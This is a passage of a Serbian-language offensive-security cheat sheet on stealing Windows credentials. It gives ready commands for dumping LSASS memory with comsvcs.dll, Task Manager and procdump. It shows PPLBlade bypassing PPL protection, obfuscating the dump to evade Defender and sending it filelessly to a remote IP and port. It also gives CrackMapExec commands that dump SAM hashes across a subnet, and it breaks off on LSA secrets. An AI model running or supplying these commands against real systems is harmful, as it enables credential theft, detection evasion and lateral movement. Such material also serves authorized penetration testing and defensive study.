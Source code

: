 ```bash
rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <lsass pid> lsass.dmp full
```

**Ovaj proces možete automatizovati pomoću** [**lssasy**](https://github.com/Hackndo/lsassy)**.**

### **Izbacivanje lsass-a pomoću Task Manager-a**

1. Desni klik na Task Bar i kliknite na Task Manager
2. Kliknite na Više detalja
3. Pretražite proces "Local Security Authority Process" na kartici Procesi
4. Desni klik na proces "Local Security Authority Process" i kliknite na "Create dump file".

### Izbacivanje lsass-a pomoću procdump-a

[Procdump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) je Microsoft potpisani binarni fajl koji je deo [sysinternals](https://docs.microsoft.com/en-us/sysinternals/) paketa.

```
Get-Process -Name LSASS
.\procdump.exe -ma 608 lsass.dmp
```

## Dumpiranje lsass-a pomoću PPLBlade-a

[**PPLBlade**](https://github.com/tastypepperoni/PPLBlade) je alat za dumpiranje zaštićenih procesa koji podržava obfuskaciju memorijskog dumpa i prenos na udaljene radne stanice bez otpuštanja na disk.

**Ključne funkcionalnosti**:

1. Zaobilaženje PPL zaštite
2. Obfuskacija datoteka memorijskog dumpa kako bi se izbegli mehanizmi detekcije na osnovu potpisa Defender-a
3. Prenos memorijskog dumpa pomoću metoda RAW i SMB bez otpuštanja na disk (bezdatotečni dump)

{% code overflow="wrap" %}
```bash
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
```
{% endcode %}

## CrackMapExec

### Dumpovanje SAM heševa

```
cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sam
```

### Preuzimanje LSA tajni

Kada je reč o krađi legitimacija, jedna od metoda koju možete koristiti je preuzimanje LSA (Local Security Authority) tajni. LSA tajne su čuvane na Windows operativnom sistemu i sadrže osetljive informacije kao što su korisnička imena i lozinke.
